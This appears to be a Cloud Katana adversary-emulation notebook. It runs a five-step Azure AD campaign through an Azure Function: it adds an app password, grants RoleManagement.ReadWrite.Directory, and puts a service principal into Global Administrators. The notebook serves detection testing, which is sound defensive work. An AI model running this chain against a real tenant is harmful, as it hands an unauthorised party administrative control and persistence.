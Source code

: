 ```yaml
---
jupyter:
  jupytext:
    text_representation:
      extension: .md
      format_name: markdown
      format_version: '1.3'
      jupytext_version: 1.14.7
  kernelspec:
    language: python
---
```


# Admin promotion via Directory Role Permission Grant


## Metadata



|                   |    |
|:------------------|:---|
| contributors      | ['Azure'] |
| platform          | Roberto Rodriguez @Cyb3rWard0g |
| creation date     | 2021-11-01 |
| modification date | 2022-05-01 |
| Tactics           | [TA0003](https://attack.mitre.org/tactics/TA0003) |
| Techniques        | [T1098.001](https://attack.mitre.org/techniques/T1098/001) |


## Description
A campaign to simulate a threat actor granting the Microsoft Graph RoleManagement.ReadWrite.Directory (application) permission to an Azure service principal and using the new permissions to add an Azure AD object or user account to an Admin directory role (i.e. Global Administrators).


## Get OAuth Access Token

```python
from msal import PublicClientApplication
import requests
import time

function_app_url = "https://FUNCTION_APP_NAME.azurewebsites.net"

tenant_id = "TENANT_ID"
public_client_app_id = "KATANA_CLIENT_APP_ID"
server_app_id_uri = "api://" + tenant_id + "/cloudkatana"
scope = server_app_id_uri + "/user_impersonation"

app = PublicClientApplication(
    public_client_app_id,
    authority="https://login.microsoftonline.com/" + tenant_id
)
result = app.acquire_token_interactive(scopes=[scope])
bearer_token = result['access_token']
```

## Set Azure Function Orchestrator

```python
endpoint = function_app_url + "/api/orchestrators/Orchestrator"
```

## Load Campaign

```python
data = {"id": "attackscenario-7dde2208-d4eb-480e-afa1-bad0ab7e861b", "name": "Admin promotion via Directory Role Permission Grant", "metadata": {"creationDate": "2021-11-01", "modificationDate": "2022-05-01", "platform": ["Azure"], "description": "A campaign to simulate a threat actor granting the Microsoft Graph RoleManagement.ReadWrite.Directory (application) permission to an Azure service principal and using the new permissions to add an Azure AD object or user account to an Admin directory role (i.e. Global Administrators).", "contributors": ["Roberto Rodriguez @Cyb3rWard0g"], "mitreAttack": [{"technique": "T1098.001", "tactics": ["TA0003"]}]}, "steps": [{"number": 1, "name": "AddPasswordToAADApp", "execution": {"type": "ScriptModule", "platform": "Azure", "executor": "PowerShell", "module": {"name": "CloudKatanaAbilities", "version": "1.3.1", "function": "Add-CKAzADAppPassword"}, "parameters": {"appObjectId": {"type": "string", "defaultValue": "test"}}}, "wait": 120}, {"number": 2, "name": "GetAccessTokenOne", "dependsOn": [1], "execution": {"type": "ScriptModule", "platform": "Azure", "executor": "PowerShell", "module": {"name": "CloudKatanaAbilities", "version": "1.3.1", "function": "Get-CKAccessToken"}, "parameters": {"ClientId": {"type": "string", "defaultValue": "test"}, "GrantType": {"type": "string", "defaultValue": "client_credentials"}, "AppSecret": {"type": "string", "defaultValue": "reference(1).secretText"}}}}, {"number": 3, "name": "GrantRoleMgmtPermission", "dependsOn": [2], "execution": {"type": "ScriptModule", "platform": "Azure", "executor": "PowerShell", "module": {"name": "CloudKatanaAbilities", "version": "1.3.1", "function": "Grant-CKAzADAppPermissions"}, "parameters": {"accessToken": {"type": "string", "defaultValue": "reference(2).access_token"}, "spObjectId": {"type": "string", "defaultValue": "test"}, "resourceName": {"type": "string", "defaultValue": "Microsoft Graph"}, "permissionType": {"type": "string", "defaultValue": "Application"}, "permissions": {"type": "array", "defaultValue": ["RoleManagement.ReadWrite.Directory"]}}}, "wait": 120}, {"number": 4, "name": "GetAccessTokenTwo", "dependsOn": [3], "execution": {"type": "ScriptModule", "platform": "Azure", "executor": "PowerShell", "module": {"name": "CloudKatanaAbilities", "version": "1.3.1", "function": "Get-CKAccessToken"}, "parameters": {"ClientId": {"type": "string", "defaultValue": "test"}, "GrantType": {"type": "string", "defaultValue": "client_credentials"}, "AppSecret": {"type": "string", "defaultValue": "reference(1).secretText"}}}}, {"number": 5, "name": "AddServicePrincipalToGARole", "dependsOn": [4], "execution": {"type": "ScriptModule", "platform": "Azure", "executor": "PowerShell", "module": {"name": "CloudKatanaAbilities", "version": "1.3.1", "function": "Add-CKAzADDirectoryRoleMember"}, "parameters": {"accessToken": {"type": "string", "defaultValue": "reference(4).access_token"}, "directoryRoleTemplateId": {"type": "string", "defaultValue": "test"}, "directoryObjectId": {"type": "string", "defaultValue": "test"}}}}], "file_name": "attackscenario-7dde2208-d4eb-480e-afa1-bad0ab7e861b"}
```

### Send HTTP Request

```python
http_headers = {'Authorization': 'Bearer ' + bearer_token, 'Accept': 'application/json','Content-Type': 'application/json'}
results = requests.get(endpoint, json=data, headers=http_headers, stream=False).json()

time.sleep(30)
```

### Explore Output

```python
query_status = requests.get(results['statusQueryGetUri'], headers=http_headers, stream=False).json()
query_results = query_status['output']
query_results
```
